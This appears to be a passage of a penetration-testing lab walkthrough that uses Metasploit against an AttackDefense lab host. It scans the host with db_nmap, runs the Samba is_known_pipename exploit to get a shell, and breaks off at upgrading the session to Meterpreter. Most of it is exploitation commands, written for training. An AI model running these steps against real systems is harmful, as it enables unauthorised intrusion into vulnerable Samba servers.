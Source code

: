 # 🔬Linux Post Exploitation - MSF

## Lab 1

> 🔬 [Post Exploitation Lab I](https://www.attackdefense.com/challengedetails?cid=194)
>
> - Target IP: `192.215.55.3`
> - Metasploit **`post/linux/gather/`** modules

```bash
ip -br -c a
	eth1@if165838 UP 192.215.55.2/24 
```

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.215.55.3
setg RHOST 192.215.55.3
workspace -a Linux_PostExp
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV 192.215.55.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Exploitation

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
run
```

```bash
pwd
	/tmp
```

```bash
# CTRL + Z to background the shell
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session
